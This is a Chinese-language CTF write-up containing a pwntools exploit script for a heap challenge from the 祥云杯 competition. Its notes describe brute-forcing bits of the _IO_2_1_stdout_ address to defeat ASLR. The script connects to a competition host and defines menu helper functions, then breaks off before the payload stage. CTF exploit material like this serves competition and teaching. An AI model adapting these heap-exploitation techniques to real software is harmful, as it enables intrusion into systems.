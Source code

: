 



# Brute force exp: redbud wh original exp

redbud wh师傅给的原始exp，祥云杯第二名，Jeopardy模式第一名(1200points)。

- `context.terminal`根据自己的环境注释掉或改掉
- 没有调用talk，暴力碰撞`&_IO_2_1_stdout_`的第12-15bit(最低第4个16进制数)。即程序中的addr`16a0`中，`6a0`对应`&_IO_2_1_stdout_`的低12bit，1是和开启ASLR的远端来碰撞

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
context.log_level = "debug"
IP = "172.20.2.7"
PORT = 26351
DEBUG = 0

def pwn():
    if DEBUG:
        p = process("./pwn", env={"LD_PRELOAD":"/home/ctf/2.31-0ubuntu9.2_amd64/libc-2.31.so"})
        # p = process("./pwn")
        base = p.libs()[p._cwd+p.argv[0].strip('.')]
        # libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
        libc = ELF("/home/ctf/2.31-0ubuntu9.2_amd64/libc-2.31.so")

    else:
        p = remote(IP, PORT)
        libc = ELF("./libc-2.31.so")

    ru = lambda x : p.recvuntil(x)
    se = lambda x : p.send(x)
    rl = lambda : p.recvline()
    sl = lambda x : p.sendline(x)
    rv = lambda x : p.recv(x)
    sa = lambda a,b : p.sendafter(a,b)
    sla = lambda a,b : p.sendlineafter(a, b)
    l64 = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))


    def debug(cmd=""):
        gdb.attach(p, cmd)

    def cmd(idx):
        sla("Todo:\n", str(idx))

    def add(idx, size, content):
        cmd(1)
        sla("\n", str(idx))
        sla("\n", str(size))
        sla("\n", content)


    def edit(idx, content):
        cmd(2)
        sla("\n", str(idx))
        sla("\n", content)

    def talk(idx):
        cmd(3)
        sla("\n", str(idx))
        ru("Baby said: ! @ # $ % ^ & * ( ")
```